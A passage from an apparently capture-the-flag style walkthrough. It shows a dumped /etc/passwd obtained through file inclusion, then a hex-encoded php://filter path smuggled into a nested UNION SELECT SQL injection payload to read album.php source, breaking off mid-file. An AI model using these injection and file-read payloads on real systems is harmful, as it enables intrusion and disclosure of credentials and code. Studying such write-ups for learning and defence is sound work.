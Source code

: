 The content of /etc/passwd was displayed:

        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/usr/sbin/nologin
        man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
        lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
        news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
        uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
        proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
        www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
        backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
        list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
        irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
        _apt:x:42:65534::/nonexistent:/usr/sbin/nologin
        nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

## Reading Application Files

With arbitrary file inclusion achieved, we explored using PHP stream wrappers to read internal application files. We specifically utilized php://filter/convert.base64-encode/resource=.

To read album.php, we first hex-encoded the filter string:
Bash

    echo -n "php://filter/convert.base64-encode/resource=album.php" | xxd -p | tr -d '\n' | sed 's/^/0x/'

This resulted in 0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d616c62756d2e706870.

The payload used to obtain the hash for album.php was:

    moebus' UNION SELECT "0 UNION SELECT 1,2,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d616c62756d2e706870-- -"-- -

With the calculated hash, we retrieved the base64-encoded source code of album.php. After decoding it, the content was:
PHP

    <!DOCTYPE html>
    <html lang="en">
    <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Image Grid</title>
    <link rel="stylesheet" href="/style.css"> </head>
    <body>
    
    <?php
    